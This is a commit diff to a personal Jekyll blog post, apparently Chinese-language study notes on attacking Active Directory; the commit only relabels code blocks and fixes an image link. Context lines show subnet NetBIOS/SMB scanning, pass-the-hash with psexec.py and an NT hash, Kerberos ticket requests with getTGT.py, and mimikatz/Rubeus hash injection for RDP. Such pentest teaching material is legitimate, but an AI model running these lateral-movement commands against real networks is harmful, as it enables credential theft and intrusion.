

Before and after one commit to phisabella/phisabella.github.io, a Jekyll site: the page built from _posts/2021-09-08-Computers-AD-0-to-0.9-part-2.markdown, in a window 1280 px wide and 1400 px high, scrolled down 5918 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; formulas are drawn with MathJax 3; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2021-09-08-Computers-AD-0-to-0.9-part-2.markdown

````diff
--- a/_posts/2021-09-08-Computers-AD-0-to-0.9-part-2.markdown
+++ b/_posts/2021-09-08-Computers-AD-0-to-0.9-part-2.markdown
@@ -201,7 +201,7 @@
 | 445  （[SMB](https://zer1t0.gitlab.io/posts/attacking_ad/#smb)） | [ntlm-info](https://github.com/Zer1t0/ntlm-info) or nmap [smb-os-discovery](https://nmap.org/nsedoc/scripts/smb-os-discovery.html) script. |
 | 135（[RCP](https://zer1t0.gitlab.io/posts/attacking_ad/#rcp)）、139  ([NetBIOS session service](https://zer1t0.gitlab.io/posts/attacking_ad/#netbios-session-service)) | nmap                                                         |
 
-```cmd
+```powershell
 ###NetBIOS scan
 $ nbtscan 192.168.100.0/24
 192.168.100.2   CONTOSO\DC01                    SHARING DC
@@ -210,7 +210,7 @@
 *timeout (normal end of scan)
 ```
 
-```cmd
+```powershell
 ###SMB scan
 $ ntlm-info smb 192.168.100.0/24
 
@@ -257,7 +257,7 @@
 
 用NT or LM哈希也能实施Pass-The-Hash，impacket tools有一个参数直接使用NT or LM哈希，为了和PsExec一起使用，需要用minikatz在window session中注入NT哈希（ [inject the NT hash in the Windows session with mimikatz](https://stealthbits.com/blog/passing-the-hash-with-mimikatz/).）
 
-```cmd
+```powershell
 ### psexec.py with a NT hash
 $ psexec.py contoso.local/Anakin@192.168.100.10 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21
 Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
@@ -287,7 +287,7 @@
 
 [ticket_converter](https://github.com/Zer1t0/ticket_converter) or [cerbero ](https://github.com/Zer1t0/cerbero#convert)可以转化win和linux的票据文件格式
 
-```cmd
+```powershell
 ###psexec.py with Kerberos authentication
 
 $ getTGT.py contoso.local/Anakin -dc-ip 192.168.100.2 -hashes :cdeae556dc28c24b5b7b14e9df5b6e21
@@ -339,7 +339,7 @@
 
 win的话用[ mimikatz or Rubeus](https://shellz.club/pass-the-hash-with-rdp-in-2019/)注入NT hash 或 Kerberos票据，然后在用[mstsc.exe /restrictedadmin ](https://shellz.club/pass-the-hash-with-rdp-in-2019/)建立不需要用户密码的RDP连接
 
-![1](../pics/AD_0_TO_0.9/1.png)
+![1](/pics/AD_0_TO_0.9/1.png)
 
 ## **Windows computers credentials**
 
````
